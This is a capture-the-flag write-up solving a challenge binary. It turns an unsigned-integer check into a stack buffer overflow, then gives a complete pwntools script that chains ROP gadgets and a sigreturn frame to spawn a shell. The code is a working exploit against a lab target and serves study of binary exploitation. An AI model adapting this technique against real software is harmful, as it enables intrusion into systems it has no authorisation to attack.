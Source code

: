 <img src="https://github.com/0xSh4dy/infosec_writeups/blob/images/img1.png"/>
So, the program asks for a number. On reversing the binary, we can see that a buffer overflow will occur if the user inputs a certain number

```
if(local_11c + 1 < local_11c){
  vulnerable_code...
}


```
Since, local_11c  is a uint, we can enter the max value i.e 4294967295. It will make the if condition true and thus, you can enter into the vulnerable code
After that, by using gdb, we can easily find the offset to rip which is 280. 
<br>
Now, the further plan is pretty straight forward. We will create a ROP chain to spawn a shell. Usually, this is done by calling system("/bin/sh"). In this case, the binary does not contain the function system. So, we cannot use this method. But, we can use execve("/bin/sh",0,0) . Since, this is a statically linked binary, it contains lots of ROP gadgets which would make exploit development easier. 
<br>
The binary also does not contain the string "/bin/sh". But, we can write this string into some writeable section such as the heap in this case. Now, I will write the exploit step by step.  First of all we need to find ROPgadgets. Tools like ROPgadget or Ropper can be used for it.

```
from pwn import *
elf = context.binary = ELF("./week3_chall2")
p = elf.process()

# Specify the architecture because it is needed to create a fake Sigreturn Frame
context.arch = "amd64"

movGadget = 0x0000000000543650 #mov qword ptr [rcx], rdx ; ret
pop_rcx_ret =  0x0000000000460133 # pop rcx ; ret
pop_rdx_ret = 0x000000000040421f # pop rdx ; ret
pop_rax_ret = 0x000000000041d24a # pop rax ; ret
ret = 0x000000000040101a #ret;
syscall = 0x00000000004039c9 # syscall;
heap = 0x00000000005dd000

offset = 280 #The offset to rip
binsh = 0x0068732f6e69622f #/bin/sh\x00
junk = b'a'*offset
p.recvuntil("Enter a number: ")
p.sendline('4294967295')
p.recvuntil("Whats Your Name, My Fellow h4x0r: ")

#The payload to write /bin/sh\x00 into memory
payload = junk + flat(pop_rcx_ret,heap,pop_rdx_ret,binsh,movGadget) 
```
After that, we need to call execve("/bin/sh\0",0,0). This can be easily done using syscalls.
Creating a fake SigreturnFrame

```
frame = SigreturnFrame()
frame.rax = 59
frame.rdi = heap
frame.rsi = 0x0
frame.rdx = 0x0
frame.rip = syscall
```

Now, we have created a Sigreturn frame. This would be used to set everything in order to call execve("/bin/sh\0",0,0). Refer to https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/ for more details on the Linux syscall table.

Now, make a sys_rt_sigreturn syscall which would be used to execute the Sigreturn Frame created by us. To make that syscall, the value in the rax register must be 15 (or 0xf). So, use pop rax;ret gadget to do that.   popping 0xf into the rax register followed by a syscall and our sigreturn frame would spawn a shell
```
payload += flat(pop_rax_ret,0xf,syscall,frame)
p.sendline(payload)
p.interactive()
```

### PROOF
<img src="https://github.com/0xSh4dy/infosec_writeups/blob/images/img2.png"/>
